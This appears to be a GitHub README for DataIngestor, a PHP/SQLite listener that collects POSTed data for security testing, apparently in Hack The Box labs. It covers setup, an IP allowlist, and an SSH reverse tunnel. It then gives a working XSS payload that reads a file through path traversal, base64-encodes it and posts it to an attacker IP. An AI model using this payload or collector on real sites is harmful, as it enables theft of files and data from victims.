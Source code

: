 # DataIngestor

A secure data collection and management system designed to ingest, store, and view data submissions from various sources.

## Overview

DataIngestor provides a simple PHP-based web interface for collecting and managing data. It features IP-based access control, SQLite database storage, and a responsive UI for data display and management. It's particularly useful for collecting data from external sources via POST requests or as part of security testing scenarios.

## Setup Instructions

### 1. Create the SQLite Database

First, navigate to the data directory and create the SQLite database with the appropriate table schema:

```console
cd 306d717c3f592af0186ed31e2f056a7d
sqlite3 data.db "CREATE TABLE entries (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    data TEXT NOT NULL,
    referrer TEXT,
    client_ip TEXT NOT NULL,
    entry_datetime DATETIME
);"
```

This creates a table with the following columns:
- `id`: Unique identifier for each entry (auto-incremented)
- `data`: The main content being stored
- `referrer`: HTTP referrer information (if available)
- `client_ip`: IP address of the client making the submission
- `entry_datetime`: Timestamp when the entry was created

### 2. Configure Access Control

Create a `config.php` file to define allowed IP addresses and CIDR ranges:

```php
<?php

// Define the allowed CIDR range and IP addresses
$allowedCIDR = '19.12.0.0/16';  // Example CIDR range
$allowedIPs = ['127.0.0.1'];    // Add your IP to this array for development/testing

?>
```

This configuration restricts access to:
- The specified CIDR range (19.12.0.0/16 in this example)
- Any individual IP addresses listed in the `$allowedIPs` array

### 3. Start the PHP Server

Run the built-in PHP development server:

```console
php -S 0.0.0.0:6745 -t ./
```

This starts a web server on port 6745 accessible from any interface (0.0.0.0).

### 4. Optional: Configure Nginx Proxy (for Remote Access)

If you want to work locally and forward traffic through another device, create a proxy configuration on the remote server:

1. Copy the provided `proxy.conf` file to `/etc/nginx/conf.d/proxy.conf` on your remote server
2. Set up an SSH tunnel:

```console
ssh root@<remote-ip> -R 6745:127.0.0.1:6745
```

This creates a secure tunnel from the remote server's port 6745 to your local machine's port 6745.

## Usage

### Basic Data Submission

To send data to the ingestor using cURL:

```console
curl -k -X POST -d "data=test" https://domain.com/
```

### Using with XSS Payloads (Security Testing)

This is an example of how to send data captured via XSS to the ingestor:

```html
<img src=x onerror="fetch('/messages.php?file=../../../../../../../../var/www/statistics.alert.htb/index.php')
.then(response => response.text())
.then(data => {
    f=document.createElement`form`;
    f.innerHTML='<input name=data value='+btoa(data)+'>';
    f.method='post';
    f.action='http://10.10.14.159:6745/index.php';
    document.body.appendChild(f);
    f.submit();
    document.body.removeChild(f);
});">
```

This example demonstrates:
1. Attempting to fetch content from a path traversal vulnerability
2. Base64 encoding the response data
3. Creating and submitting a form to the ingestor endpoint
4. Cleaning up by removing the form from the DOM

## Security Considerations

- The system implements IP-based access control, but should be deployed behind additional security layers in production
- Consider adding authentication for the web interface in production environments
- The included XSS example is for educational/testing purposes only

## Features

- Data submission via HTTP POST
- Automatic IP logging
- Base64 detection and decoding capability
- Real-time refresh when new data is received
- Copy-to-clipboard functionality
- Show/hide full data entries